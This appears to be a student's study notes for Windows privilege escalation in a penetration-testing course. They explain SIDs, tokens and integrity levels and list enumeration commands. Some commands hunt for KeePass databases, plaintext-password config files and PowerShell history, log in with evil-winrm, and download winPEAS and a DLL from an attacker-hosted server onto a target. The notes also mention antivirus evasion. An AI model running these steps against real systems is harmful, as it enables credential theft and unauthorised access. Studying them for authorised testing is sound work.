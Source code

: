           Well Known SIDs
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator

Tokens describe the security context of a user
When a user starts a process / thread, they are assigned a primary token. This is a copy of the user's access token.

Impersonation tokens are used to give different contexts than the process that owns the thread.

When processes are started or objects are created, they receive the integrity level of the principal performing this operation. 
One exception is if an executable file has a low integrity level, the process's integrity level will also be low.

- System: SYSTEM (kernel, ...)
- High: Elevated users
- Medium: Standard 
- Low: very restricted rights often used in sandboxed[^privesc_win_sandbox]

### Situational Awareness

Key Information for Windows privilege escalation
-Username and hostname
  whoami - you can infer data from hostname such as WEB01 for a web server or MSSQL01
  
- Group memberships of the current user
  whoami /groups
  
- Existing users and groups
  net user OR Powershell -> Get-LocalUser - list all users
  
  for groups keep an eye on things like helpdesk, backup, administrator, etc... rdp's pretty important too.
  net localgroup OR Get-LocalGroup -> List all groups
  Get-LocalGroupMember <groupnam> - List all users of group
  
- Operating system, version and architecture
  systeminfo

- Network information
  ipconfig /all
    is dhcp enabled? Is there a dns server? Is there a subnetmask or mac address?
    
  route print
  
  netstat -ano
    -a to display all active TCP connections as well as TCP and UDP ports, -n to disable name resolution, and -o to show the process ID for each connection.
  
- Installed applications
  show all x32 apps
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  
  show all x64 apps
   Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
   
   ```mystuff
   NOTE: These paths only work if the apps properly register themselves... If you can't find anything, try this...
   "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths"
   : This path contains information about application executable paths.
   
   "HKCR\Installer\Products"
   : This path contains information about installed products as recorded by the Windows Installer.```
  
  Or just check Program Files in C:\
  
- Running processes
          
  Get-Process
  
  ```my stuff
          
  Get-Process | Select-Object Name, Id, Path, Company, IntegrityLevel -- Integrity didn't show for me.. maybe it needs admin perms to show
  
  search by pid
          
  Get-Process | Where-Object { $_.Id -eq <PID> } | Select-Object Name, Id, Path
  
  search by processname
          
  Get-Process | Where-Object { $_.Name -eq "process_name" }
  
  search by name with wildcard
          
  Get-Process | Where-Object { $_.Name -like "*myapp*" }
  ```
 
 ### Hidden in plain sight
       
Find password DB for keePass. Obviously for other password managers, this needs to be changed
          
 Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
          
Find config files that may have passwords in plain text...
          
 Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
          

          
 ### Information Gold Mine
          
 Get-History
 (Get-PSReadlineOption).HistorySavePath
          
 alternatively
          
 type $((Get-PSReadlineOption).HistorySavePath)

PowerShell Remoting by default uses WinRM for Cmdlets such as Enter-PSSession. Therefore, a user needs to be in the local group Windows Management Users to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.
          
Kali - login using winrm (NOTE SPECIAL CHARS MAY NEED TO BE ESCAPED)
          
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

          
If RDP is annoying try this..
xfreerdp /u:USER /p:'PASSWORD' /v:$target /cert-ignore /w:1366 /h:768
          
xfreerdp /u:daveadmin /p:'mypassword' /v:'192.168.208.220' /cert-ignore /w:1366 /h:768
          
Search for event 4104 to see ScriptBlockLog events
         
### automation
 winPeas... serve it up to target using 
          
python3 -m http.server 80
          
then on target download using

iwr -uri http://192.168.45.230/winPEASx64.exe -Outfile winPEAS.exe
          
from INE I learned about using
 iwr -UseBasicParsing -Uri http://IP/Dwrite.dll -OutFile C:\Users\Administrator\Desktop\dvta\bin\Release\Dwrite.dll
          
** automated tools can be blocked by AV solutions. If this is the case, we can apply techniques learned in the Module "Antivirus Evasion", try other tools such as Seatbelt2 and JAWS,3 or do the enumeration manually.
          
winPeas misses things... don't forget manual enumeration...
          
       

          
         






 A skilled penetration tester's goal is therefore not to blindly attempt privilege escalation on every machine at any cost,
 but to identify machines where privileged access leads to further compromise of the client's infrastructure.
